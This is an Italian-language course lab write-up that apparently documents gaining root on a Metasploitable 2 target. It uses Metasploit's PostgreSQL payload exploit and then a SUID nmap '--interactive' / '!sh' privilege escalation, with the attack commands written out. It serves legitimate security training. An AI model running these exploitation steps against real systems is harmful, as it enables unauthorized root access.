

# Consegna S7/L3: Ottenere una Shell Root con Exploit PostgreSQL

## 📝 **Descrizione del progetto**
In questa esercitazione abbiamo utilizzato l'exploit **PostgreSQL Payload** di Metasploit per ottenere una shell con privilegi limitati su un sistema vulnerabile (**Metasploitable 2**). Successivamente, abbiamo sfruttato il binario `nmap` con **bit SUID** attivo per eseguire manualmente un'escalation di privilegi ed ottenere **root** sul sistema.

L'obiettivo è stato raggiunto attraverso un approccio sistematico e ben documentato che include:
- Configurazione dell'exploit PostgreSQL per ottenere una sessione iniziale Meterpreter.
- Verifica della presenza di binari vulnerabili con il bit SUID attivo.
- Escalation manuale a root sfruttando `nmap` in modalità interattiva.

---

## 📋 **Passaggi seguiti**

### **1. Configurazione iniziale**
#### Verifica della connessione con Metasploitable
- Identificazione dell'IP della macchina target (**Metasploitable**):
  ```bash
  nmap -sn 192.168.50.0/24
  ```
- IP identificati:
  - **Kali Linux (attaccante):** 192.168.50.2
  - **Metasploitable (target):** 192.168.50.3

### **2. Configurazione dell'exploit PostgreSQL**
Per ottenere una sessione Meterpreter:
```bash
msfconsole
use exploit/linux/postgres/postgres_payload
set RHOSTS 192.168.50.3
exploit
```



- **Risultato:** Abbiamo ottenuto una sessione Meterpreter come utente **postgres**.

### **3. Verifica dei privilegi e binari vulnerabili**
Dalla sessione Meterpreter, abbiamo verificato l'utente corrente e cercato binari con **bit SUID** attivo:
```bash
getuid
shell
find / -perm -4000 -type f 2>/dev/null | grep nmap
```
- **Risultato:** Trovato `nmap` con bit SUID attivo su `/usr/bin/nmap`.

### **4. Escalation di privilegi a root**
Abbiamo sfruttato manualmente `nmap` per ottenere una shell root:
1. Accedere alla modalità interattiva di nmap:
   ```bash
   /usr/bin/nmap --interactive
   ```
2. Eseguire una shell come root:
   ```bash
   !sh
   ```
3. Verifica dei privilegi:
   ```bash
   whoami
   ```
- **Risultato:** Utente elevato a **root**.

---

## 🎯 **Risultati ottenuti**
- **Accesso iniziale:** Sessione Meterpreter come utente `postgres`.
- **Escalation di privilegi:** Eseguita con successo sfruttando `nmap` con bit SUID.
- **Privilegi finali:** Shell root sul sistema target.

---

## 🛠️ **Strumenti utilizzati**
- **Metasploit Framework:** Per lanciare l'exploit PostgreSQL e ottenere l'accesso iniziale.
- **Nmap (SUID):** Sfruttato manualmente per ottenere root.
- **Linux Shell:** Per l'esecuzione di comandi manuali post-escalation.

---

## 📌 **Considerazioni finali**
Questa esercitazione ha dimostrato l'importanza di combinare strumenti automatizzati (come Metasploit) con tecniche manuali per sfruttare vulnerabilità note. L'escalation di privilegi tramite `nmap` evidenzia come l'errata configurazione dei permessi possa essere sfruttata per ottenere il controllo completo di un sistema target.

**Nota:** La persistenza non è stata implementata in questa fase e sarà configurata successivamente utilizzando msfvenom.

